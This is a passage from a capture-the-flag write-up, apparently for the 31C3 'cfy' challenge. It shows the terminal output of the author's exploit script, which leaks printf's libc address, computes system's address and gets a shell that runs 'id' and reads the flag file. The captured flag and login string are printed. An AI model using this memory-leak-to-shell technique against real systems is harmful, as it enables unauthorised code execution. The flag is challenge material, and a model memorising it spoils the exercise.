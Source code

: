 I ran the script and crossed my fingers:

```bash
bas@tritonal:~/tmp/31c3/cfy$ python exploit.py 
What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit


Please enter your number: dec: 140686779126752
hex: 0x7ff4317e93e0

What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit

[+] found printf: 7ff4317e93e0
[+] system at 7ff4317d9b30

Please enter your number: 
dec: 0
hex: 0x0

What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit

Please enter your number: id
uid=1001(cfy) gid=1001(cfy) groups=1001(cfy)
cat /home/cfy/flag
THANK YOU WARIO!

BUT OUR PRINCESS IS IN
ANOTHER CASTLE!

Login: cfy_pwn // 31C3_G0nna_keep<on>grynding
```

So the flag was `31C3_G0nna_keep<on>grynding`. I thought this was quite tough based on the amount of points...

